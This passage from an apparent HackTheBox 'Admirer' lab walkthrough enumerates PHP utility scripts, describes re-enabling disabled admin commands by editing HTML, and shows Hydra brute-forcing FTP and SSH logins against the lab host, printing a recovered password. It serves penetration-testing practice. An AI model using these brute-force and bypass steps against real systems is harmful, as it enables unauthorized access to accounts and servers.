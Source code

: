         // Create connection
        $conn = new mysqli($servername, $username, $password);

        // Check connection
        if ($conn->connect_error) {
            die("Connection failed: " . $conn->connect_error);
        }
        echo "Connected successfully";

        // TODO: Finish implementing this or find a better open source alternative
    ?>
    ```
- __info.php__: containing some script returning the PHP version.
    ```php
    <?php phpinfo(); ?>
    ```
- __phptest.php__: containing some junk echo
    ```php
    <?php
        echo("Just a test to see if PHP works.");
    ?>
    ```

### Utility scripts

Lets attempt to access the utility scripts we enumerated in the step previous.

- http://10.10.10.187/utility-scripts/info.php

    The returns all PHP versioning, as expected. For example: `PHP Version 7.0.33-0+deb9u7` and a vast array of environment variables.

- http://10.10.10.187/utility-scripts/admin_tasks.php

    The 'admin_tasks' utility is up on the server too. 
    
    There are only 3 commands avaliable, but they can be fired by editing the HTML such that they're no longer disabled.

    I tried to inject some scripts into this, but unfortuntaely made no gains.

### Combining users & passwords

I copied all users found thus far into a file `users.txt` and all passwors found into `pass.txt`, then ran these files through Hydra to see if we had any success.

```
kali@kali:~/Desktop/HackTheBox/admirer$ hydra -L users.txt -P pass.txt ftp://10.10.10.187
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-22 19:11:37
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ftp://10.10.10.187:21/
[21][ftp] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-22 19:11:41
kali@kali:~/Desktop/HackTheBox/admirer$ hydra -L users.txt -P pass.txt ssh://10.10.10.187
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-22 19:11:47
```